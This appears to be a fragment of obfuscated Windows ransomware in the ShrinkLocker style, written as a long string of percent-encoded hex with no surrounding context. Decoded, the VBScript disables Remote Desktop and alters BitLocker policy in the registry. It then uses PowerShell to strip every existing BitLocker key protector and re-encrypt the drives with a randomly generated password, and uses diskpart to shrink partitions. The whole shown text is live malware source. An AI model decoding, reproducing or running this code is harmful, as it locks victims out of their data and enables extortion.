Tc2JTY1JTcyJTIyJTIyJTIwJTJmJTc2JTIwJTY2JTQ0JTY1JTZlJTc5JTU0JTUzJTQzJTZmJTZlJTZlJTY1JTYzJTc0JTY5JTZmJTZlJTczJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMxJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTU3JTY5JTZlJTY0JTZmJTc3JTczJTVjJTQzJTc1JTcyJTcyJTY1JTZlJTc0JTU2JTY1JTcyJTczJTY5JTZmJTZlJTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTUzJTc5JTczJTc0JTY1JTZkJTIyJTIyJTIwJTJmJTc2JTIwJTczJTYzJTY2JTZmJTcyJTYzJTY1JTZmJTcwJTc0JTY5JTZmJTZlJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMxJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTU1JTczJTY1JTQxJTY0JTc2JTYxJTZlJTYzJTY1JTY0JTUzJTc0JTYxJTcyJTc0JTc1JTcwJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMxJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTQ1JTZlJTYxJTYyJTZjJTY1JTQyJTQ0JTQ1JTU3JTY5JTc0JTY4JTRlJTZmJTU0JTUwJTRkJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMxJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTU1JTczJTY1JTU0JTUwJTRkJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMyJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTIwJTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTU1JTczJTY1JTU0JTUwJTRkJTUwJTQ5JTRlJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMyJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTU1JTczJTY1JTU0JTUwJTRkJTRiJTY1JTc5JTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMyJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTU1JTczJTY1JTU0JTUwJTRkJTRiJTY1JTc5JTUwJTQ5JTRlJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMyJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTQ1JTZlJTYxJTYyJTZjJTY1JTRlJTZmJTZlJTU0JTUwJTRkJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMxJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTU1JTczJTY1JTUwJTYxJTcyJTc0JTY5JTYxJTZjJTQ1JTZlJTYzJTcyJTc5JTcwJTc0JTY5JTZmJTZlJTRiJTY1JTc5JTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMyJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcyJTY1JTY3JTIwJTYxJTY0JTY0JTIwJTIyJTIyJTQ4JTRiJTRjJTRkJTVjJTUzJTRmJTQ2JTU0JTU3JTQxJTUyJTQ1JTVjJTUwJTZmJTZjJTY5JTYzJTY5JTY1JTczJTVjJTRkJTY5JTYzJTcyJTZmJTczJTZmJTY2JTc0JTVjJTQ2JTU2JTQ1JTIyJTIyJTIwJTJmJTc2JTIwJTU1JTczJTY1JTUwJTQ5JTRlJTIwJTJmJTc0JTIwJTUyJTQ1JTQ3JTVmJTQ0JTU3JTRmJTUyJTQ0JTIwJTJmJTY0JTIwJTMyJTIwJTJmJTY2JTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcwJTZmJTc3JTY1JTcyJTczJTY4JTY1JTZjJTZjJTJlJTY1JTc4JTY1JTIwJTJkJTQzJTZmJTZkJTZkJTYxJTZlJTY0JTIwJTIyJTIyJTI0JTcwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTczJTIwJTNkJTIwJTI4JTQ3JTY1JTc0JTJkJTQyJTY5JTc0JTRjJTZmJTYzJTZiJTY1JTcyJTU2JTZmJTZjJTc1JTZkJTY1JTIwJTJkJTRkJTZmJTc1JTZlJTc0JTUwJTZmJTY5JTZlJTc0JTIwJTIyJTIwJTI2JTIwJTY0JTcyJTY5JTc2JTY1JTczJTI4JTY5JTI5JTIwJTI2JTIwJTIyJTI5JTJlJTRiJTY1JTc5JTUwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTNiJTIwJTY5JTY2JTIwJTI4JTI0JTcwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTczJTIwJTJkJTZlJTY1JTIwJTI0JTZlJTc1JTZjJTZjJTI5JTIwJTdiJTIwJTY2JTZmJTcyJTY1JTYxJTYzJTY4JTIwJTI4JTI0JTcwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTIwJTY5JTZlJTIwJTI0JTcwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTczJTI5JTIwJTdiJTIwJTUyJTY1JTZkJTZmJTc2JTY1JTJkJTQyJTY5JTc0JTRjJTZmJTYzJTZiJTY1JTcyJTRiJTY1JTc5JTUwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTIwJTJkJTRkJTZmJTc1JTZlJTc0JTUwJTZmJTY5JTZlJTc0JTIwJTIyJTIwJTI2JTIwJTY0JTcyJTY5JTc2JTY1JTczJTI4JTY5JTI5JTIwJTI2JTIwJTIyJTIwJTJkJTRiJTY1JTc5JTUwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTQ5JTY0JTIwJTI0JTcwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTJlJTRiJTY1JTc5JTUwJTcyJTZmJTc0JTY1JTYzJTc0JTZmJTcyJTQ5JTY0JTIwJTdkJTIwJTdkJTIyJTIyJTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcwJTZmJTc3JTY1JTcyJTczJTY4JTY1JTZjJTZjJTJlJTY1JTc4JTY1JTIwJTJkJTQzJTZmJTZkJTZkJTYxJTZlJTY0JTIwJTI0JTYxJTNkJTQzJTZmJTZlJTc2JTY1JTcyJTc0JTU0JTZmJTJkJTUzJTY1JTYzJTc1JTcyJTY1JTUzJTc0JTcyJTY5JTZlJTY3JTIwJTIyJTIwJTI2JTIwJTQzJTY4JTcyJTI4JTMzJTM0JTI5JTIwJTIwJTI2JTIwJTQzJTY4JTcyJTI4JTMzJTM5JTI5JTIwJTI2JTIwJTczJTc0JTcyJTUyJTYxJTZlJTY0JTZmJTZkJTIwJTI2JTIwJTQzJTY4JTcyJTI4JTMzJTM5JTI5JTIwJTIwJTI2JTIwJTQzJTY4JTcyJTI4JTMzJTM0JTI5JTIwJTI2JTIwJTIyJTIwJTJkJTYxJTczJTcwJTZjJTYxJTY5JTZlJTc0JTY1JTc4JTc0JTIwJTJkJTY2JTZmJTcyJTYzJTY1JTNiJTQ1JTZlJTYxJTYyJTZjJTY1JTJkJTQyJTY5JTc0JTRjJTZmJTYzJTZiJTY1JTcyJTIwJTIyJTIwJTI2JTIwJTY0JTcyJTY5JTc2JTY1JTczJTI4JTY5JTI5JTIwJTI2JTIwJTIyJTIwJTJkJTczJTIwJTJkJTcxJTY1JTIwJTJkJTcwJTc3JTcwJTIwJTJkJTcwJTc3JTIwJTI0JTYxJTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTA5JTQ5JTY2JTIwJTRjJTY1JTZlJTI4JTI4JTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTcwJTZmJTc3JTY1JTcyJTczJTY4JTY1JTZjJTZjJTJlJTY1JTc4JTY1JTIwJTJkJTQzJTZmJTZkJTZkJTYxJTZlJTY0JTIwJTUyJTY1JTczJTc1JTZkJTY1JTJkJTQyJTY5JTc0JTRjJTZmJTYzJTZiJTY1JTcyJTIwJTJkJTRkJTZmJTc1JTZlJTc0JTUwJTZmJTY5JTZlJTc0JTIwJTIyJTIwJTI2JTIwJTY0JTcyJTY5JTc2JTY1JTczJTI4JTY5JTI5JTIwJTI2JTIwJTIyJTIwJTIyJTI5JTI5JTJlJTczJTc0JTY0JTZmJTc1JTc0JTJlJTcyJTY1JTYxJTY0JTYxJTZjJTZjJTI5JTIwJTNlJTIwJTMwJTIwJTU0JTY4JTY1JTZlJTNhJTIwJTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTA5JTA5JTRlJTY1JTc4JTc0JTBhJTA5JTQ1JTZlJTY0JTIwJTQ5JTY2JTBhJTBhJTBhJTUzJTY1JTc0JTIwJTZmJTYyJTZhJTU2JTZmJTZjJTc1JTZkJTY1JTczJTIwJTNkJTIwJTZmJTYyJTZhJTU3JTRkJTQ5JTJlJTQ1JTc4JTY1JTYzJTUxJTc1JTY1JTcyJTc5JTI4JTIyJTUzJTQ1JTRjJTQ1JTQzJTU0JTIwJTJhJTIwJTQ2JTUyJTRmJTRkJTIwJTU3JTY5JTZlJTMzJTMyJTVmJTQ1JTZlJTYzJTcyJTc5JTcwJTc0JTYxJTYyJTZjJTY1JTU2JTZmJTZjJTc1JTZkJTY1JTIwJTc3JTY4JTY1JTcyJTY1JTIwJTQ0JTcyJTY5JTc2JTY1JTRjJTY1JTc0JTc0JTY1JTcyJTNkJTI3JTIyJTIwJTI2JTIwJTQ0JTcyJTY5JTc2JTY1JTZjJTY1JTc0JTc0JTY1JTcyJTczJTIwJTI2JTIwJTIyJTI3JTIyJTI5JTBhJTA5JTY5JTY2JTIwJTZmJTYyJTZhJTU2JTZmJTZjJTc1JTZkJTY1JTczJTJlJTYzJTZmJTc1JTZlJTc0JTIwJTNkJTIwJTMwJTIwJTc0JTY4JTY1JTZlJTBhJTA5JTA5JTUzJTY1JTc0JTIwJTYzJTZmJTZjJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTczJTIwJTNkJTIwJTZmJTYyJTZhJTU3JTRkJTQ5JTUzJTY1JTcyJTc2JTY5JTYzJTY1JTJlJTQ1JTc4JTY1JTYzJTUxJTc1JTY1JTcyJTc5JTI4JTIyJTUzJTQ1JTRjJTQ1JTQzJTU0JTIwJTJhJTIwJTQ2JTUyJTRmJTRkJTIwJTU3JTY5JTZlJTMzJTMyJTVmJTQ0JTY5JTczJTZiJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTIwJTU3JTQ4JTQ1JTUyJTQ1JTIwJTUwJTcyJTY5JTZkJTYxJTcyJTc5JTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTIwJTNkJTIwJTU0JTUyJTU1JTQ1JTIwJTYxJTZlJTY0JTIwJTQ0JTY5JTczJTZiJTQ5JTZlJTY0JTY1JTc4JTIwJTNkJTIwJTMwJTIyJTI5JTBhJTA5JTA5JTA5JTA5JTQ2JTZmJTcyJTIwJTQ1JTYxJTYzJTY4JTIwJTZmJTYyJTZhJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTIwJTQ5JTZlJTIwJTYzJTZmJTZjJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTczJTBhJTA5JTA5JTA5JTA5JTA5JTczJTc0JTcyJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTIwJTNkJTIwJTZmJTYyJTZhJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTJlJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTBhJTA5JTA5JTA5JTA5JTA5JTUzJTY1JTc0JTIwJTYzJTZmJTZjJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTczJTIwJTNkJTIwJTZmJTYyJTZhJTU3JTRkJTQ5JTUzJTY1JTcyJTc2JTY5JTYzJTY1JTJlJTQ1JTc4JTY1JTYzJTUxJTc1JTY1JTcyJTc5JTI4JTIyJTUzJTQ1JTRjJTQ1JTQzJTU0JTIwJTJhJTIwJTQ2JTUyJTRmJTRkJTIwJTU3JTY5JTZlJTMzJTMyJTVmJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTU0JTZmJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTIwJTU3JTQ4JTQ1JTUyJTQ1JTIwJTQxJTZlJTc0JTY1JTYzJTY1JTY0JTY1JTZlJTc0JTNkJTI3JTU3JTY5JTZlJTMzJTMyJTVmJTQ0JTY5JTczJTZiJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTJlJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTNkJTIyJTIyJTIyJTIwJTI2JTIwJTczJTc0JTcyJTUwJTYxJTcyJTc0JTY5JTc0JTY5JTZmJTZlJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTIwJTI2JTIwJTIyJTIyJTIyJTI3JTIyJTI5JTBhJTA5JTA5JTA5JTA5JTA5JTQ2JTZmJTcyJTIwJTQ1JTYxJTYzJTY4JTIwJTZmJTYyJTZhJTQ0JTY5JTczJTZiJTIwJTQ5JTZlJTIwJTYzJTZmJTZjJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTczJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTUzJTY1JTc0JTIwJTYzJTZmJTZjJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTczJTMyJTIwJTNkJTIwJTZmJTYyJTZhJTU3JTRkJTQ5JTUzJTY1JTcyJTc2JTY5JTYzJTY1JTJlJTQ1JTc4JTY1JTYzJTUxJTc1JTY1JTcyJTc5JTI4JTIyJTUzJTQ1JTRjJTQ1JTQzJTU0JTIwJTJhJTIwJTQ2JTUyJTRmJTRkJTIwJTU3JTY5JTZlJTMzJTMyJTVmJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTIwJTU3JTQ4JTQ1JTUyJTQ1JTIwJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTNkJTI3JTIyJTIwJTI2JTIwJTUyJTY1JTcwJTZjJTYxJTYzJTY1JTI4JTRkJTY5JTY0JTI4JTZmJTYyJTZhJTQ0JTY5JTczJTZiJTJlJTQ0JTY1JTcwJTY1JTZlJTY0JTY1JTZlJTc0JTJjJTIwJTQ5JTZlJTUzJTc0JTcyJTI4JTZmJTYyJTZhJTQ0JTY5JTczJTZiJTJlJTQ0JTY1JTcwJTY1JTZlJTY0JTY1JTZlJTc0JTJjJTIwJTIyJTIyJTIyJTIyJTI5JTIwJTJiJTIwJTMxJTI5JTJjJTIwJTIyJTIyJTIyJTIyJTJjJTIwJTIyJTIyJTI5JTIwJTI2JTIwJTIyJTI3JTIyJTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTQ2JTZmJTcyJTIwJTQ1JTYxJTYzJTY4JTIwJTZmJTYyJTZhJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTIwJTQ5JTZlJTIwJTYzJTZmJTZjJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTczJTMyJTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTc0JTcyJTQ0JTcyJTY5JTc2JTY1JTRjJTY1JTc0JTc0JTY1JTcyJTIwJTNkJTIwJTZmJTYyJTZhJTRjJTZmJTY3JTY5JTYzJTYxJTZjJTQ0JTY5JTczJTZiJTJlJTQ0JTY1JTc2JTY5JTYzJTY1JTQ5JTQ0JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY1JTc0JTIwJTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTIwJTNkJTIwJTQzJTcyJTY1JTYxJTc0JTY1JTRmJTYyJTZhJTY1JTYzJTc0JTI4JTIyJTU3JTUzJTYzJTcyJTY5JTcwJTc0JTJlJTUzJTY4JTY1JTZjJTZjJTIyJTI5JTJlJTQ1JTc4JTY1JTYzJTI4JTIyJTY0JTY5JTczJTZiJTcwJTYxJTcyJTc0JTIyJTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTUzJTY1JTZjJTY1JTYzJTc0JTIwJTU2JTZmJTZjJTc1JTZkJTY1JTIwJTIyJTIwJTI2JTIwJTczJTc0JTcyJTQ0JTcyJTY5JTc2JTY1JTRjJTY1JTc0JTc0JTY1JTcyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JTZlJTZiJTY0JTY5JTczJTZiJTJlJTUzJTc0JTY0JTQ5JTZlJTJlJTU3JTcyJTY5JTc0JTY1JTRjJTY5JTZlJTY1JTI4JTIyJTczJTY4JTcyJTY5JTZlJTZiJTIwJTY0JTY1JTczJTY5JTcyJTY1JTY0JTNkJTMxJTMwJTMwJTIyJTIwJTI2JTIwJTc2JTYyJTQzJTcyJTRjJTY2JTI5JTBhJTA5JTA5JTA5JTA5JTA5JTA5JTA5JTczJTY4JTcyJTY5JT